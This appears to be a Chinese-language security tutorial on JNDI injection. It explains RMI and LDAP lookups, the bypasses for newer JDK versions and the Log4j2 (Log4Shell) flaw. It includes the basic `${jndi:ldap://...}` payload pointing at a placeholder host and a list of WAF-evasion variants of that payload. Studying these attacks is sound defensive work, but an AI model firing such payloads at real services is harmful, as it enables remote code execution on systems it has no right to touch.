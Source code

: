 ```yaml
---
title: JNDI注入
date: 2023/5/1 15:00:25
categories:
- Java
tags:
- JNDI注入
---
```




## 什么是JNDI

`JNDI(Java Naming and Directory Interface)`是`Java`提供的`Java`命名和目录接口。

> Naming Service 命名服务：命名服务将名称和对象进行关联，提供通过名称找到对象的操作
>
> Directory Service目录服务：目录服务是命名服务的扩展，除了提供名称和对象的关联，还允许对象具有属性。

通过调用`JNDI`的`API`可以定位资源和其他程序对象。

> 通过名称查找(`lookup`)对象 		
>
> 通过对象的属性搜索(`search`)对象

`JNDI`是`Java EE`的重要部分，`JNDI`可访问的现有的目录及服务有:`JDBC`、`LDAP`、`RMI`、`DNS`、`NIS`、`CORBA`，如

```java
dns://domain
ldap://ip/name
rmi://ip/name
```



## 什么是RMI

`RMI`全称是`Remote Method Invocation`（远程⽅法调⽤），目的是为了让两个隔离的java虚拟机，如虚拟机A能够调用到虚拟机B中的对象，而且这些虚拟机可以不存在于同一台主机上。

**RMI其发送、接收的数据都是反序列化数据。**



## 什么是LDAP

 `LDAP`，全称为 `Lightweight Directory Access Protocol`，即轻量级目录访问协议，主要用于资源查询。



## 漏洞形成原因

> JNDI支持从指定的远程服务器上下载class文件，加载到本地JVM中，并通过适当的方式创建对象。
>
> 如果目标应用进行了JNDI查询（`lookup`），并且其查询的地址或名称可控的话，就会形成JNDI注入漏洞



## JNDI注入

### 流程

![image-20230502220549589](../../../images/无标题-2023-05-01-1454-1682925503892.png)

1. 攻击者构造恶意协议，传入服务端（目标应用）

   ```java
   rmi://ip:port/name
   ldap://ip:port/name
   dns://{外带数据}.域名
   ```

2. 服务端连接到攻击者指定的服务，查询得到一个恶意的`JNDI Reference`

3. 服务端解析该恶意`JNDI Reference`

4. 根据解析结果到指定服务器上下载`Factory`的字节码

5. 加载字节码，攻击者的恶意代码被执行



### RMI

#### 低版本

服务端

![image-20230501151253546](../../../images/image-20230501151253546.png)

RMI服务

![image-20230501151418991](../../../images/image-20230501151418991.png)

```java
Reference reference = new Reference(className,classFactor,classFactoryLocation)
```

> `className`：远程加载时所使用的类名
> `classFactor`：加载的 class 中需要实例化类的名称
> `classFactoryLocation`：提供classes数据的地址可以是 file/ftp/http 等协议



存放恶意字节码的WEB服务器

恶意字节码对应的java文件![image-20230501151607225](../../../images/image-20230501151607225.png)

先启动RMI服务和web服务器

![image-20230501152041695](../../../images/image-20230501152041695.png)

![image-20230501152052702](../../../images/image-20230501152052702.png)

再启动Server

![image-20230501152145871](../../../images/image-20230501152145871.png)

![image-20230501152116749](../../../images/image-20230501152116749.png)



#### 高版本

![image-20230502172305622](../../../images/image-20230502172305622.png)

`com.sun.jndi.rmi.object.trustURLCodebase` 默认为 `false`，所以会进入 `if` 语句，抛出异常。



##### 绕过

原理

绕过抛出异常后进入`javax.naming.spi.NamingManager` 

![image-20230502172806278](../../../images/image-20230502172806278.png)

![image-20230502173802695](../../../images/image-20230502173802695.png)

实现

`Tomcat Server`中的`BeanFactory`类，通过该类的`getObjectInstance`方法反射调用了`javax.el.ELProcessor`的`eval`方法，最终实现了EL表达式执行达到RCE的效果。



### LDAP

#### 低版本

同RMI，远程加载即可

#### 高版本

当从`LDAP Server`传来的对象是序列化对象时，会调用`readobject`方法，存在反序列化漏洞。



### 版本影响

`com.sun.jndi.rmi.object.trustURLCodebase` 默认为 `false`

![image-20230502220543519](../../../images/1586953-20210613173957090-164407195.png)

绕过方法

- 利用本地Class作为Reference Factory
- 利用LDAP返回序列化数据，触发本地Gadget



## Log4J2

### 原理

Log4j是java用来处理日志的第三方组件，提供了`Lookups`的机制：

> 会对日志中用 `${prefix:key}`包裹起来的变量进行解析

![image-20230426124656392](../../../images/image-20230426124656392.png)

当记录的信息为`${jndi:xxx}`时,log4j2就会发起`JNDI Lookup`查询,从而触发JNDI注入漏洞。

### 基本payload

```bash
?a=${jndi:ldap://xxxx/a}
```

log4j2包含的变量

https://github.com/bfengj/CTF/blob/main/Web/java/Log4j2/Log4j2-%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%AD%A6%E4%B9%A0.md



### waf绕过

假设过滤了字符abc

```bash
a${:-b}c
${lower:b}
a${::-b}c
a${E:-a}c
a${:-${:-b}}c
a${xxxanycodexxxx:-b}c
    
unicode编码绕过
插入空白字符绕过
```







